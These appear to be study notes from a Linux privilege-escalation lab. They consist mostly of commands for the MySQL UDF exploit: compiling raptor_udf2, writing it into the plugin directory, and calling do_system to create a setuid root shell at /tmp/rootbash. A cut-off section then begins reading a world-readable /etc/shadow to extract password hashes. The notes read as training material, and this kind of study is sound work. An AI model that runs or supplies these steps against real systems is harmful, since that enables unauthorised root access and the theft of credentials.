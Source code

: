 ```

service exploit mysql

https://www.exploit-db.com/exploits/1518

```
cd /home/user/tools/mysql-udf
```
compile raptor code:
```
gcc -g -c raptor_udf2.c -fPIC

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

connect to mysql:
```
mysql -u root
```

use mysql;
```
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';


select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
exit

```
/tmp/rootbash -p
```









### 4.  weak file permission



readable /etc/shadow file
```
ls -l /etc/shadow

cat /etc/shadow

sudo echo <hash> > hash.txt

